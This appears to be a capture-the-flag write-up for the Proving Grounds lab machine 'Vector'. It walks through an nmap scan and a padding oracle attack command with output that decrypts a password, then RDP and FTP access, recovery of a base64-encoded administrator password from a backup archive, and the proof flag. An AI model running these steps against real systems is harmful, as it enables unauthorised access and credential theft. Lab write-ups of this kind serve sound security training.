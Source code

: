 ```yaml
---
title: "Vector - PG"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2022-01-22 10:13:14 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, Padding Oracle Attack]
render_with_liquid: false
---
```


## Recon & Enumeration

```
# autorecon
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN full_tcp_nmap.txt 192.168.157.119
```

```
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
2290/tcp open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=vector
| Issuer: commonName=vector
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-09-20T18:21:33
| Not valid after:  2022-03-22T18:21:33
| MD5:   9f9a 1f6b 3f7b 3178 b7d0 1aa5 9df4 25ad
| SHA-1: 4254 3770 1d9d dcd2 0886 be7f b28d b6b6 2a3f 8c6a
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQeYu1RKPBi5ZGlb45mRn2PzANBgkqhkiG9w0BAQsFADAR
  <--SNIP-->
| Q4Q5C6rGKL/lLtDEeden9m3tL+GXfLphsxqo6xmaWhW3yZ8oKhi7stxEHWvxeWU1
| /yO+PQ==
|_-----END CERTIFICATE-----
|_ssl-date: 2022-01-21T19:05:31+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VECTOR
|   NetBIOS_Domain_Name: VECTOR
|   NetBIOS_Computer_Name: VECTOR
|   DNS_Domain_Name: vector
|   DNS_Computer_Name: vector
|   Product_Version: 10.0.17763
|_  System_Time: 2022-01-21T19:04:51+00:00
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

- Visit http://192.168.157.119:2290/default.aspx 
- Check comments: 

```
AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488
		
Victor's TODO: Need to add authentication eventually..
```

---

## Exploitation 

- Google: AES-256-CBC-PKCS7 ciphertext decrypt 
- Google: AES-256-CBC-PKCS7 ciphertext exploit 
- [Padding Oracle Attack](https://github.com/mpgn/Padding-oracle-attack) 

### Padding Oracle Attack 

```
python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.157.119:2290 -u '/default.aspx?c=' --error '<span id="MyLabel">0</span>'

[+] Search value block :  1
[+] Found  1 bytes : 04
[+] Found  2 bytes : 0404
[+] Found  3 bytes : 040404
[+] Found  4 bytes : 04040404
[+] Found  5 bytes : 3704040404
[+] Found  6 bytes : 743704040404
[+] Found  7 bytes : 61743704040404
[+] Found  8 bytes : 5661743704040404
[+] Found  9 bytes : 655661743704040404
[+] Found 10 bytes : 6f655661743704040404
[+] Found 11 bytes : 6c6f655661743704040404
[+] Found 12 bytes : 416c6f655661743704040404
[+] Found 13 bytes : 6d416c6f655661743704040404
[+] Found 14 bytes : 726d416c6f655661743704040404
[+] Found 15 bytes : 6f726d416c6f655661743704040404
[+] Found 16 bytes : 576f726d416c6f655661743704040404

[+] Decrypted value (HEX): 576F726D416C6F655661743704040404
[+] Decrypted value (ASCII): WormAloeVat7
```

- `WormAloeVat7`
- We also have a username from TODO note in the comments: Victor 
- `Victor:WormAloeVat7`
- RDP using these credentials 

---

## Privilege Escalation 

- There is a `backup.rar` encrypted file in `Users/victor/Downloads` 
- Start SMBServer and copy the file over to Kali 
- `copy ./backup.rar \\192.168.49.157\share\`
- For whatever reason that didn't work. But there was FTP running on the box and I was able to log in using the same credentials we got. So I copied that file to C:\FTPRoot and logged in via FTP on Kali to get the file 
- `ftp 192.168.157.119 21 => victor:WormAloeVat7`
- `binary` to set binary mode 
- `get backup.rar` to download 

### Extract the RAR File 

```
unrar e backup.rar
Enter password for backup.rar: WormAloeVat7
Extracting from backup.rar
Extracting  backup.txt  OK
```

- `cat backup.txt` 

```
QWRtaW5pc3RyYXRvcjpFdmVyeXdheUxhYmVsV3JhcDM3NQ==
```

- `cat backup.txt | base64 -d`
- `Administrator:EverywayLabelWrap375`
- Log out and RDP again into the machine, this time as the Administrator 

```
C:\Users\Administrator\Desktop>whoami && hostname && ipconfig | findstr IPv4 && type proof.txt
vector\administrator
vector
   IPv4 Address. . . . . . . . . . . : 192.168.157.119
668ac83fd9c03503c34f00b0e4da3a

C:\Users\Administrator\Desktop>
```

